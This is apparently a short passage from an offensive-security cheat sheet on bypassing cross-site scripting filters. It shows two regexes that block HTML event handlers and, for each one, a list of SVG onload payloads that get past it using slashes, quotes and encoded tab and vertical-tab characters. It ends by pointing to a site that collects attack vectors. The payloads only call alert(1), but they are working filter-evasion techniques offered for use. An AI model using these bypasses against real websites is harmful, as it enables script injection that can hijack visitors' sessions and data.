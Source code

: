 **2.** Sometimes the events are filtered. This is a very common regex for filtering:

```
(on\w+\s*=)
```

Bypassing it:

```
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id='x'onload=alert(1)>
```

**3.** Bettering up the filter:

```
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

Bypassing it:

```
<svg onload%09=alert(1)>
<svg %09onload=alert(1)>
<svg %09onload%09=alert(1)>
<svg onload%09%20%28%2c%3B=alert(1)>
<svg onload%0B=alert(1)>
```

![escaping onload](../img/onload.png)

[https://shazzer.co.uk/vectors](https://shazzer.co.uk/vectors) is a great resource to see potential attack vectors. 
